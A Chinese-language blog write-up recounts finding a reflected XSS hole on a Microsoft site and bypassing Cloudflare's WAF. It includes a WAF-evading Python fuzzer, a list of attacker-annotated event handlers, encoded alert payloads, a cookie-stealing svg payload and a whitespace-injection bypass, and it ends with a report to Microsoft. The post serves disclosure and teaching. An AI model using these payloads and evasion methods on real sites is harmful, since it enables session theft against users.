


记一次艰难的微软某站XSS绕过WAF
前言
有一天我去微软官方下载镜像，于是乎我发现了这一个网站存在html的回显且双引号逃逸，经过我的一番研究之后，成功绕过了cloudflare的拦截，历经波折，在此写下文章记录一下。
正文开始
当我发现这个链接，给s参数进行传参的时候是有回显的，并且我可以使用双引号闭合
尝试使用”>”闭合
再尝试使用>进行闭合标签，以失败告终，被过滤了
尝试使用编码绕过；能够正常显示，但还是没闭合标签
只能考虑使用h1标签插入事件来触发XSS了；直接输入完整的payload，发现被拦截了

我把多余的传参删掉，继续测试
尝试”`“绕过
圆括号被拦截，换成`
1
2
3
| 没拦截 https:
拦截 https:
没拦截 https:
|
综合上述的那个payload发现，其实如果没有出现鼠标或者其它事件的触发函数的话，是可以正常使用反引号的，于是乎我开始fuzz能够触发的函数
用python写了一个脚本进行fuzz，事件的话使用网上搜索到的。为什么我不直接使用burp的lntruder来枚举呢？因为延迟不好设置，避免容易被waf拦截，我使用python可以实现了随机延迟来进行fuzz
python脚本
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
| import requests
import time
import random
# 读取参数文件
with open('1.txt', 'r') as file:
lines = file.readlines()
# 循环发送请求
for line in lines:
parameter = line.strip() # 去除换行符和空格
url = f"https://xxxx.microsoft.com/?s=%22{parameter}=confirm%602%60%20"
headers = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0' # 替换为你自己的User-Agent字符串
}
# 发送GET请求
response = requests.get(url, headers=headers)
# 打印响应状态码
print(f"请求URL: {url}")
print(f"响应状态码: {response.status_code}")
# 延迟x秒
delay = random.uniform(3, 9)
time.sleep(delay)
|
fuzz事件函数
事件函数
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
| FSCommand() (攻击者当需要在嵌入的Flash对象中执行时可以使用此事件)
onAbort() (当用户中止加载图片时)
onActivate() (当对象激活时)
onAfterPrint() (用户打印或进行打印预览后触发)
onAfterUpdate() (从数据源对象更新数据后由数据对象触发)
onBeforeActivate() (在对象设置为激活元素前触发)
onBeforeCopy() (攻击者在选中部分拷贝到剪贴板前执行攻击代码-攻击者可以通过执行execCommand("Copy")函数触发)
onBeforeCut() (攻击者在选中部分剪切到剪贴板前执行攻击代码)
onBeforeDeactivate() (在当前对象的激活元素变化前触发)
onBeforeEditFocus() (在一个包含可编辑元素的对象进入激活状态时或一个可编辑的对象被选中时触发)
onBeforePaste() (在用户被诱导进行粘贴前或使用execCommand("Paste")函数触发)
onBeforeUnload() (用户需要被诱导关闭浏览器-除非从父窗口执行，否则攻击者不能关闭当前窗口)
onBeforeUpdate() (从数据源对象更新数据前由数据对象触发)
onBegin() (当元素周期开始时由onbegin 事件立即触发)
onBlur() (另一个窗口弹出当前窗口失去焦点时触发)
onBounce() (当marquee对象的behavior属性设置为“alternate”且字幕的滚动内容到达窗口一边时触发)
onCellChange() (当数据提供者的数据变化时触发)
onChange() (select，text, 或TEXTAREA字段失去焦点并且值发生变化时触发)
onClick() (表单中点击触发)
onContextMenu() (用户需要在攻击区域点击右键)
onControlSelect() (当用户在一个对象上创建控件选中区时触发)
onCopy() (用户需要复制一些东西或使用execCommand("Copy")命令时触发)
onCut() (用户需要剪切一些东西或使用execCommand("Cut")命令时触发)
onDataAvailable() (用户需要修改元素中的数据，或者由攻击者提供的类似功能)
onDataSetChanged() (当数据源对象变更导致数据集发生变更时触发)
onDataSetComplete() (数据源对象中所有数据可用时触发)
onDblClick() (用户双击一个表单元素或链接)
onDeactivate() (在激活元素从当前对象转换到父文档中的另一个对象时触发)
onDrag() (在元素正在拖动时触发)
onDragEnd() (当用户完成元素的拖动时触发)
onDragLeave() (用户在拖动元素离开放置目标时触发)
onDragEnter() (用户将对象拖拽到合法拖曳目标)
onDragOver() (用户将对象拖拽划过合法拖曳目标)
onDragDrop() (用户将一个对象（例如文件）拖拽到浏览器窗口)
onDragStart() (当用户开始拖动元素时触发)
onDrop() (当拖动元素放置在目标区域时触发)
onEnded() (在视频/音频（audio/video）播放结束时触发)
onError() (在加载文档或图像时发生错误)
onErrorUpdate() (当从数据源对象更新相关数据遇到错误时在数据绑定对象上触发)
onFilterChange() (当滤镜完成状态变更时触发)
onFinish() (当marquee完成滚动时攻击者可以执行攻击)
onFocus() (当窗口获得焦点时攻击者可以执行攻击代码)
onFocusIn() (当元素将要被设置为焦点之前触发)
onFocusOut() (攻击者可以在窗口失去焦点时触发攻击代码)
onHashChange() (当锚部分发生变化时触发攻击代码)
onHelp() (攻击者可以在用户在当前窗体激活时按下F1触发攻击代码)
onInput() (在 <input> 或 <textarea> 元素的值发生改变时触发)
onKeyDown() (用户按下一个键的时候触发)
onKeyPress() (在键盘按键被按下并释放一个键时触发)
onKeyUp() (用户释放一个键时触发)
onLayoutComplete() (用户进行完打印或打印预览时触发)
onLoad() (攻击者在窗口加载后触发攻击代码)
onLoseCapture() (可以由releaseCapture()方法触发)
onMediaComplete() (当一个流媒体文件使用时，这个事件可以在文件播放前触发)
onMediaError() (当用户在浏览器中打开一个包含媒体文件的页面，出现问题时触发事件)
onMessage() (当页面收到一个信息时触发事件)
onMouseDown() (攻击者需要让用户点击一个图片触发事件)
onMouseEnter() (光标移动到一个对象或区域时触发)
onMouseLeave() (攻击者需要让用户光标移动到一个图像或表格然后移开来触发事件)
onMouseMove() (攻击者需要让用户将光标移到一个图片或表格)
onMouseOut() (攻击者需要让用户光标移动到一个图像或表格然后移开来触发事件)
onMouseOver() (光标移动到一个对象或区域)
onMouseUp() (攻击者需要让用户点击一个图片)
onMouseWheel() (攻击者需要让用户使用他们的鼠标滚轮)
onMove() (用户或攻击者移动页面时触发)
onMoveEnd() (用户或攻击者移动页面结束时触发)
onMoveStart() (用户或攻击者开始移动页面时触发)
onOffline() (当浏览器从在线模式切换到离线模式时触发)
onOnline() (当浏览器从离线模式切换到在线模式时触发)
onOutOfSync() (当元素与当前时间线失去同步时触发)
onPaste() (用户进行粘贴时或攻击者可以使用execCommand("Paste")函数时触发)
onPause() (在视频或音频暂停时触发)
onPopState() (在窗口的浏览历史（history 对象）发生改变时触发)
onProgress() (攻击者可以在一个FLASH加载时触发事件)
onPropertyChange() (用户或攻击者需要改变元素属性时触发)
onReadyStateChange() (每次 readyState 属性变化时被自动调用)
onRedo() (用户返回上一页面时触发)
onRepeat() (事件在播放完重复播放时触发)
onReset() (用户或攻击者重置表单时触发)
resizeTo(500,400);</SCRIPT>)
onResizeEnd() (用户完成改变窗体大小时触发)
onResizeStart() (用户开始改变窗体大小时触发)
onResume() (当元素继续播放时触发)
onReverse() (当元素回放时触发)
onRowsEnter() (用户或攻击者需要改变数据源中的一行)
onRowExit() (用户或攻击者改变数据源中的一行后退出时触发)
onRowDelete() (用户或攻击者需要删除数据源中的一行)
onRowInserted() (user or attacker would needto insert a row in a data source)
onScroll() (用户需要滚动或攻击者使用scrollBy()函数)
onSeek() (当用户在元素上执行查找操作时触发)
execCommand("SelectAll");)
execCommand("SelectAll");)
execCommand("SelectAll");)
onStart() (在marquee 对象开始循环时触发)
onStop() (当用户按下停止按钮或离开页面时触发)
onStorage() (当Web Storage更新时触发)
onSyncRestored() (当元素与它的时间线恢复同步时触发)
onSubmit() (需要用户或攻击者提交表单)
onTimeError() (用户或攻击者设置时间属性出现错误时触发)
onTrackChange() (用户或攻击者改变播放列表内歌曲时触发)
onUndo() (用户返回上一浏览记录页面时触发)
onUnload() (用户点击任意链接或按下后退按钮或攻击者强制进行点击时触发)
onURLFlip() (当一个高级流媒体格式（ASF）文件，由一个HTML+TIME（基于时间交互的多媒体扩展）媒体标签播放时，可触发在ASF文件中内嵌的攻击脚本)
seekSegmentTime() (这是一个方法可以定位元素某个时间段内中的特定的点，并可以从该点播放。这个段落包含了一个重复的时间线，并包括使用AUTOREVERSE属性进行反向播放。)
|
测了一圈下来，基本上都是403（403则是被waf拦截）
只剩下这几个是200，可以过waf的；但是这几个函数都不适合用在h1标签上，大小写也测试过了，于是使用事件触发这个思路算是走不通了。
1
2
3
| onOnline
seekSegmentTime
FSCommand
|
尝试绕过弹窗函数
于是尝试从弹窗函数和反引号入手，首先是弹窗函数，常用的alert、confirm和 prompt均被拦截。
尝试使用Unicode编码的弹窗函数
1
2
3
4
5
6
7
| Onclick \u0061\u006C\u0065\u0072\u0074
html编码且去掉分号
\u0061\u006C\u0065\u0072\u0074
再进行URL编码进行请求
%26%23x5c%26%23x75%26%23x30%26%23x30%26%23x36%26%23x31%26%23x5c%26%23x75%26%23x30%26%23x30%26%23x36%26%23x43%26%23x5c%26%23x75%26%23x30%26%23x30%26%23x36%26%23x35%26%23x5c%26%23x75%26%23x30%26%23x30%26%23x37%26%23x32%26%23x5c%26%23x75%26%23x30%26%23x30%26%23x37%26%23x34
|
当我手动添加了反引号之后可以触发，但是当我输入两个反引号进行请求的时候，又被拦截了

弹窗函数又行不通了，经过查询资料发现一个可以绕该waf的payload
1
| <svg onload=alert(document.cookie)>
|
修改为适合这里的；发现被拦截了
尝试从反引号入手
1
2
| html编码 `
url编码 %26%23%78%30%30%30%30%30%30%30%30%30%30%30%30%36%30
|
请求发现被拦截，单个的时候正常
1
2
| https:
?s=%22ONclick=alert%26%23%78%30%30%30%30%30%30%30%30%30%30%30%30%36%30qqq%26%23%78%30%30%30%30%30%30%30%30%30%30%30%30%36%30%20
|
到这里的时候，心态已经崩了。
尝试throw
尝试throw绕过;失败了。
现在捋一下思路发现：
- 1.同时出现事件函数、等于号、双反引号或者双圆括号就会被拦截
- 2.且不管是通过各种编码实现的上述内容，入事件函数，弹窗函数，反引号，只要最终能触发XSS弹窗的，就会被拦截。
- 3.单独出现，或者出现三者的其二都是可以正常访问
尝试添加额外字符扰乱（成功）
尝试添加空格等其它字符进行干扰waf的判断
在html的标签中，不同位置的空格绕过方式不是一样的
1
| <html><imgAAAsrcAAAonerrorBBB=BBBalertCCC(1)DDD</html>
|
1
2
3
4
| A位置： /，/123/，%09，%0A，%0C，%0D，%20
B位置：%09，%0A，%0C，%0D，%20
C位置：%0B，
|
尝试在alert前后添加空格被拦截;也就是BBB和CCC
1
| <h1 ONclick=空格alert`1` >hello</h1>
|
尝试在弹窗内容后添加空格被拦截;也就是DDD
1
2
| <h1 ONclick=alert`1`空格>hello</h1>
<h1 ONclick=alert`1空格`>hello</h1>
|
尝试在触发函数中添加空格，也就是AAA和BBB
1
| <h1 ONclick空格=alert`1`>hello</h1>
|
在BBB中添加 %0C 成功（%09、%0A、%0D被拦截；%20位置错乱）、
1
| <h1 ONclick空格=alert`1`>hello</h1>
|
完整的payload为

在谷歌查看HTML
在火狐中查看HTML；发现多了个� 但无影响函数的触发
总结
国外的WAF真牛逼，只要我的不是完整的payload就不会触发拦截，而且不会针对性的去拦截payload。经历了一番漫长的尝试终于绕过 WAF，提交给微软之后，怀着激动的心情等微软官方的好消息(微软的XSS漏洞一般都有1200-3000$)。过了几天微软赏金团队告知我该漏洞不在赏金计划的范围之内，无缘了微软的赏金，但微软会在自己的MSRC官网中对漏洞提交者进行鸣谢。